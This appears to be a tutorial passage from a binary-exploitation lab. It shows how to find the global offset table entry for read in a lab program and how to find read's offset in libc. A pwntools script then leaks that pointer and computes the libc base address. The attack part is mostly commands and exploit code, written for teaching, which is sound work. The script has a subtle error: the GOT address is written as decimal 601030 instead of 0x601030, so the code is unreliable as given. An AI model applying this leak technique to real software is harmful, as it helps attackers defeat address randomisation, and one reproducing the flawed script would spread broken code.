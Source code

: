 
## Example, memory leak -> arbitrary call
`./ar8b_ac` is a program that
1. reads a ptr, `read_loc`
2. prints 8 bytes at `read_loc`
3. reads another ptr, `call_loc` 
4. executes the code at `call_loc`

Get absolute address of the read entry in the global offset table
```
objdump -Mintel -d ar8b_ac | less
...
00000000004005b0 <read@plt>:
  4005b0:       ff 25 7a 0a 20 00       jmp    QWORD PTR [rip+0x200a7a]        # 601030 <_GLOBAL_OFFSET_TABLE_+0x30>
  4005b6:       68 03 00 00 00          push   0x3
  4005bb:       e9 b0 ff ff ff          jmp    400570 <_init+0x28>
...
```
In the above example, `0x601030` is the absolute address of the read entry in the GOT.
`0x4005b0` is the absolute address of the read trampoline.  For all intents and purposes,
when the program calls the function `read`, it thinks it is calling `read` in libc, but
it is really calling this trampoline which will 'jmp' to read in libc.

```
# get offset of read in libc
vagrant@vagrant:/vagrant/2_got_leak_libc_reconstruction$ ldd ar8b_ac
        linux-vdso.so.1 =>  (0x00007ffff7ffa000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7a0d000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7dd7000)
vagrant@vagrant:/vagrant/2_got_leak_libc_reconstruction$ objdump -Mintel -d /lib/x86_64-linux-gnu/libc.so.6 | less
...
00000000000f7250 <__read@@GLIBC_2.2.5>:
...
```

Now, correctly encode this information into a script `leak.py`
```
from pwn import *

endpoint = process("./ar8b_ac")

# ./ar8b_ac constants/offsets
read_got = 601030

# libc offsets
read_offset = 0xf7250

endpoint.send(p64(read_got))

data_received = endpoint.recv(8)
read_addr = u64(data_received)

print("[+] Read address: 0x{:2x}".format(read_addr))
libc_base = read_addr - read_offset
print("[+] Libc base: 0x{:2x}".format(libc_base))
```
